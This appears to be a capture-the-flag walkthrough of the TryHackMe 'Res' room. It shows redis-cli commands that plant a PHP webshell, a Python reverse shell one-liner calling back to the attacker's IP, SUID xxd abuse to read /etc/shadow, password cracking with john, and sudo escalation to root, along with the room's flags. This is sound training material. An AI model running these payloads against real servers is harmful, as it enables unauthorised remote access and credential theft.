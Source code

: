 
# Res - vulnerable database server

Link to the room : https://tryhackme.com/room/res

My IP address : 10.8.202.86

Target IP address : 10.10.142.184

My OS : Kali GNU/Linux 2021.2

## Enumeration

First off we need to enumerate our target.
```
sudo nmap -sSVC -p- -n -T4 -A 10.10.142.184

PORT    STATE   SERVICE and VERSION
80      open    http Apache/2.4.18
6379    open    redis 6.0.7
```

Next up I moved to the webpage but didn't really find anything that could help me get into the machine. So I googled some information about redis database and found out that 
I can connect to this database with a special tool called `redis-cli`. 
```
sudo apt install redis-cli
redis-cli 10.10.142.184
```
And with that access we are able to obtain a webshell that we will turn into a reverse shell.

## Webshell

To obtain a webshell we have to move into our webpage directory (default /var/www/html) and write a new file that we'll access through our browser. The file will give us 
possibility to execute various cmd commands.
```
config set dir /var/www/html
config set dbfilename webshell.php
set test "<?php system($_GET['cmd']); ?>"
save
```
All of this you can read on the forum HackTricks : https://book.hacktricks.xyz/pentesting/6379-pentesting-redis .

As we are done with our webshell we can try to run it from the webpage by going into http://10.10.142.184/webshell.php?cmd= and passing and argument into `cmd` parameter.
You can try to check if it works by passing `id` or `whoami`. 

## Reverse shell

Now we can start listening with netcat and pass a python3 reverse shell to execute it.
```
nc -lnvp 445

?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.202.86",445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
It shouldn't take long to get the connection.

## Stabilisation and horizontal privilege escalation

You can stabilise your reverse shell using python3 `python3 -c 'import pty; pty.spawn("/bin/bash")'`. 

After that we can start enumerating this machine and search for potential vectors that will help us escalate our privileges. After a while of manual searching I did search for 
all SUID files and one of them was particularly interesting.
```
find / -user root -perm /4000 > /tmp/find.txt
cat /tmp/find.txt

/usr/bin/xxd
```
It's not something I was familiar with and definitely it is not basic tool that comes with Linux so I looked it up on https://gtfobins.github.io/ and to my suprise I was able 
to use it to read all of the files on system. First thing that you should always check is /etc/shadow were I was able to retrieve vianka's hash.
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1 viankahash.txt

vianka:beautiful1
```
There is no SSH service so you have to `su vianka` from your reverse shell. 

## Vertical privilege escalation

With vianka's account first thing that I did was reading user.txt file `thm{red1s_rce_w1thout_credent1als}` and checking `sudo -l`. And again, to my surprise, the privilege 
escalation was easy because vianka has permission to run ALL files with `sudo`. 
```
sudo -l
sudo /bin/sh
whoami

root
```
The root.txt file was in /root/ directory `thm{xxd_pr1v_escalat1on}`.
